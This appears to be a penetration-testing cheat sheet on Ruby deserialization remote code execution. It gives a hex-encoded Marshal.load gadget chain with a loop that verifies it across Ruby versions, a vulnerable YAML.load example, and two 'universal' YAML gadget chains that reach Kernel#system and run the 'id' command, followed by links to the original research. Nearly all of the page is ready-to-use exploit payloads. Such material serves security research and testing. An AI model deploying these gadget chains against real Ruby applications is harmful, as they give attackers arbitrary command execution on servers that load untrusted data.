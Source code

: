 # Ruby Deserialization

## Marshal.load

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## Yaml.load

Vulnerable code
```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

Universal gadget for ruby <= 2.7.2:
```ruby
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

Universal gadget for ruby 2.x - 3.x.

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```


## References

- [RUBY 2.X UNIVERSAL RCE DESERIALIZATION GADGET CHAIN - elttam, Luke Jahnke](https://www.elttam.com.au/blog/ruby-deserialization/)
- [Universal RCE with Ruby YAML.load - @_staaldraad ](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
- [Online access to Ruby 2.x Universal RCE Deserialization Gadget Chain - PentesterLab](https://pentesterlab.com/exercises/ruby_ugadget/online)
- [Universal RCE with Ruby YAML.load (versions > 2.7) - @_staaldraad](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)